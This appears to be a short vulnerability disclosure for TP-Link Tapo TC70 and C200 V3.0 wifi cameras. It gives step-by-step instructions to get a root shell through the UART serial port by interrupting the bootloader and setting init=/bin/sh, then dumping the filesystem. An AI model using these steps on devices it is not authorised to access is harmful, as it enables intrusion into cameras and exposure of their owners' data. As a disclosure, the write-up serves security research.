 # TAPO TC70 & C200 Unauthorized root access using UART.
### Product : TPLINK TAPO TC70 V3.0 , TAPO C200 V3.0 wifi cameras
### Firmware version: 1.3.4

## How to gain the root access
- Solder the UART pins on the camera circuit board to a *UART to USB* cable
- Find the usb port address using the `dmesg` command
- Use the picocom command to start an interactive shell with access to bootlog
- Ex: `sudo picocom /dev/ttyUSBx -b 115200` , (x : {0,1,2..} check dmesg output to
find this)
- When the terminal is ready plugin the camera
- The camera boots twice on the second appearance of the ‘AutoBooting in 1 second’ type `slp` 
- This will grant access to the boot menu
- Change the boot configuration using(add/modify init=/bin/sh to the bootargs env
var): `setenv bootargs console=ttyS1,115200n8 mem=45M@0x0 rmem=19M@0x2d00000
root=/dev/mtdblock6 rootfstype=squashfs spdev=/dev/mtdblock7 noinitrd init=/bin/sh`
- Now reboot using bootd command or save the configuration and restart the camera
- The camera boots directly to the /bin/sh shell giving root access
- Now you can access the complete file system of the camera and can also dump it using a sd card
